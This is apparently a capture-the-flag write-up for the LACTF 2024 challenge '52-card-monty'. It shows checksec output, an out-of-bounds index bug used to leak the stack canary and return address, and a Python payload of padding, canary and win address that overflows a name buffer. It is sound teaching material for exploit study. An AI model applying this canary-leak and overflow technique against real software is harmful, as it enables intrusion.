

# 52-card-monty

ret2win challenge with a canary, and with PIE enabled

## checksec

```bash
[*] '/mnt/d/CTFs/LACTF 2024/52-card-monty/monty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Canary + PIE enabled

## Leaking the canary and return address

Provide 55 and 57 as inputs to leak the canary and return addresses, respectively. 

```c
printf("index of your first peek? ");
scanf("%d", &index);
leak = cards[index % DECK_SIZE];
cards[index % DECK_SIZE] = cards[0];
cards[0] = leak;
printf("Peek 1: %lu\n", cards[0]);
```

We can do this because `cards` is an array of longs of size 52, while DECK_SIZE is defined to be 0x52. 

## Sending the payload

While the char `name` buffer is only of size 20, the `fgets` call allows us to throw in up till 51 bytes of input

```c
printf("Add your name to the leaderboard.\n");
getchar();
printf("Name: ");
fgets(name, 52, stdin);
```

We therefore can generate the payload with 

```python
payload = b'A'*24 + canary + b'A'*8 + winaddr
```

and send it to win

